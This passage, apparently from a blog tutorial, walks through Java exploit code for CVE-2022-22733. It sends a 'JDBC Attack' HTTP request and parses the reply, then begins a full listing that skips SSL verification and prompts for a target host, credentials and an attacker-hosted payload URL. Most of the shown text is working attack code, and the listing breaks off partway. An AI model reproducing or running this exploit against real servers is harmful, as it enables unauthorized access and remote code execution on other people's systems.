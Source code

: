 ```
con2.setDoOutput(true);


DataOutputStream wr = new DataOutputStream(con2.getOutputStream());
wr.writeBytes(requestBody);
wr.flush();
wr.close();

int responseCode2 = con2.getResponseCode();
System.out.println("[*] JDBC Attack Response Code : " + responseCode2);
BufferedReader in2 = new BufferedReader(new InputStreamReader(con2.getInputStream()));
String inputLine2 = "";
StringBuffer response2 = new StringBuffer();

while ((inputLine2 = in2.readLine()) != null) {
    response2.append(inputLine2);
}
in2.close();


JSONObject jsonObject2 = new JSONObject(response2.toString());
System.out.println("[*] JDBC Attack Response: " + jsonObject2);
```

Here is the code for our final step and it's not a big different as we already familiar with the `HTTP` connection and with sending & parsing response data. Now, Before we test the full code let's add some `try` & `catch` to handle exceptions & also skip the `SSL` verifications.

Full Code:

```
import org.json.JSONObject;
import javax.net.ssl.HttpsURLConnection;
import javax.net.ssl.SSLContext;
import javax.net.ssl.TrustManager;
import javax.net.ssl.X509TrustManager;
import java.io.BufferedReader;
import java.io.DataOutputStream;
import java.io.InputStreamReader;
import java.net.HttpURLConnection;
import java.net.URL;
import java.nio.charset.StandardCharsets;
import java.util.Base64;
import java.util.Scanner;

public class Main {
    public static void main(String[] args) {
        System.out.print("[*] CVE-2022-22733 Exploit By: Zeyad Azima\nWebsite: https://zeyadazima.com\nGithub: https://github.com/Zeyad-Azima\n");
        System.out.println("");
        System.out.println("");
        try {
            Scanner scanner = new Scanner(System.in);
            System.out.print("[+] Enter host: ");
            String host = scanner.nextLine();
            System.out.print("[+] Enter port: ");
            String port = scanner.nextLine();
            System.out.print("[+] Enter username: ");
            String username = scanner.nextLine();
            System.out.print("[+] Enter password: ");
            String password = scanner.nextLine();
            System.out.print("[+] Enter payload URL for JDBC Attack: ");
            String JDBC = scanner.nextLine();
            scanner.close();
```